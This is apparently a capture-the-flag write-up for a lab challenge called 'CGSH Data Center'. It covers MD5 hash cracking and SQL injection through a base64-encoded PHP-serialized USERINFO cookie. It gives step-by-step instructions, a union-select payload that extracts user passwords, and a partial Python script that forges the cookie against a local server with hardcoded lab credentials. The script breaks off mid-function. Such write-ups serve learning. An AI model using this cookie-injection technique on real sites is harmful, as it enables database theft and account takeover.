 

## CGSH Data Center

### 1
- [md5 decrypter](https://hashkiller.co.uk/md5-decrypter.aspx), erda's md5 hash


### 2
- PHP serialization, cookie, base64


### 3
- SQL injection on cookie

1. Login as any user
2. Get PHPSESSID and USERINFO from cookie
3. Decode USERINFO and inject id as `0 union select password, 2, 3 from users where id=1`, change the string length as well.
4. Base64 encode the php serial and send it back with PHPSESSID in cookie (you can use `curl ... | grep 'id='`)


### 4
- SQL injection on cookie


```python
#!/usr/bin/env python3

import base64, requests, readline, code, re, warnings

warnings.filterwarnings('ignore')

url = 'http://localhost:10204/cgsh_data_center/account.php'

# Login and get session id
r = requests.post(url, data={'username': 'erda', 'password': '2017bad'}, verify=False)

assert r.text.find('Hello') != -1

session_id = r.cookies.get('PHPSESSID')
print('PHPSESSID:', session_id)

def userinfo(userid):
    serial = 'a:2:{s:2:"id";s:%s:"%s";s:8:"username";s:0:"";}'
    serial = serial % (len(userid), userid)
    return base64.b64encode(serial.encode()).decode()

def query(q):
    global session_id, url
    cookies = {
        'PHPSESSID': session_id,
        'USERINFO': userinfo(q)
        }
    return requests.get(url, cookies=cookies, verify=False).text

query('0 union select 1,2,3')

def ideq(q):
    regex = re.compile('\(id=(.+)\)')
    r = regex.search(query(q))
    try:
        return r.groups()[0]
    except:
```